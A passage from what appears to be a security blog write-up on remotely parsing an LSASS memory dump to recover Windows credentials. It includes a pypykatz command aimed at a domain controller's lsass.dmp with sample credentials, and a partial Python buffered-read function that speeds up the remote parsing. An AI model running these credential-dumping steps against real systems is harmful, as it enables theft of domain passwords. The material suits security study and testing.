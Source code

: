 	pypykatz lsa minidump adsec.local/jsnow:Winter_is_coming_\!@DC01.adsec.local:/C$/Windows/Temp/lsass.dmp

### Optimizations[](https://en.hackndo.com/remote-lsass-dump-passwords/#optimizations)

We now have a way to read and analyze an lsass dump remotely, without having to download the full 150MB dump on our machine, it’s a great step forward!

However, even if we don’t have to download everything, the dump takes a long time, almost as much as downloading the whole thing. This is due to the fact that each time minidump wants to read a few bytes, a new request is made to the remote server. It is very inefficient. When we log some read calls, we realize that minidump makes many, many requests of 4 bytes.

A solution that I have implemented to overcome this problem is to create a local buffer, and impose a minimum number of bytes to read during a request to reduce the overhead. If a request requires less than 4096 bytes, well we will still ask for 4096 bytes, which we will save locally, and we will only return the first bytes to minidump.

During the following calls to the `read` function, if the requested data size is in the local buffer, the local buffer is returned directly, which is **way** faster. If, on the other hand, the data is not in the buffer, then a new buffer of 4096 bytes will be requested.

This optimization works very well because minidump performs a lot of concurrent readings. Here’s how it was implemented.

	def read(self, size):
	    """
	    Return an empty string if 0 bytes are requested
	    """
	    if size == 0:
	        return b''

	    if (self.__buffer_data["offset"] <= self.__currentOffset <= self.__buffer_data["offset"] + self.__buffer_data["size"]
	            and self.__buffer_data["offset"] + self.__buffer_data["size"] > self.__currentOffset + size):
	        """
	        If requested bytes are included in local buffer self.__buffer_data["buffer"], we return theses bytes directly
	        """
	        value = self.__buffer_data["buffer"][self.__currentOffset - self.__buffer_data["offset"]:self.__currentOffset - self.__buffer_data["offset"] + size]
	    else:
	        """
	        Else, we request these bytes to the remote host
	        """
	        self.__buffer_data["offset"] = self.__currentOffset

	        """
	        If the request asks for less then self.__buffer_min_size bytes, we will still ask for self.__buffer_min_size bytes and we will save them in the local buffer for next calls.
	        """
	        if size < self.__buffer_min_size:
	            value = self.__conn.readFile(self.__tid, self.__fid, self.__currentOffset, self.__buffer_min_size)
	            self.__buffer_data["size"] = self.__buffer_min_size
	            self.__total_read += self.__buffer_min_size
